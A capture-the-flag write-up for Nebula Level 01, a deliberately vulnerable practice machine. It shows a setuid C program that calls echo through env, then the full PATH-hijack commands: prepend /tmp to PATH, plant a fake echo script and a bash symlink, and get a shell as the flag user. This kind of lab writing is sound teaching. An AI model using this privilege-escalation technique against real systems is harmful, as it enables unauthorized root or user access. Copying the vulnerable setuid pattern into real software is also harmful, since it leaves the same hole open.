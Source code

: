 # Nebula - Level 01

## Info

Login: 		level01/level01

Topic:		Set User / Group ID Bits.  

## Description

The Code below allows arbitrary programs to execute it find it!

```c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
  gid_t gid;
  uid_t uid;
  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);

  system("/usr/bin/env echo and now what?");
}

```

## Ideas

The program is calling echo. If I can manage to change the Environment variable to get it runnig a shell. That would be great. The line `system("/usr/bin/env echo and now what?")` is of interest. `echo` is beeing called. `and now what` are parameters for `echo` . 

## Solution

Change the environment variable `PATH`. Add a directory where you can write to. In this case `tmp`

```bash
PATH=/tmp:$PATH
```

To get it known by the system you have to export it:

```bash
export PATH
```

Now If we type a comand name into commandline. The shell will also look in the directory `/tmp`. It is the first directory in the PATH variable and so it's the first place where the shell will look for programs. Now we can place a little shell script there to get executed. We name it `echo` . 

`echo -e '#!/bin/bash\n/tmp/echo2' > /tmp/echo`

This Script will call a shell to open up. So we also need a  shell to get opened. Make a symbolic ink to a shell. In this case Bash. We name it `echo2` because we call it with our script.

`ln -s /bin/bash /tmp/echo2`

Now it is important to make the Script executable. Without this modification it would not get found as a executable program via the `PATH`-variable. 

`chmod 755 /tmp/echo`

Now we can run `./flag01` and become the user `flag01`. Now we call `getflag` and the flag is ours.

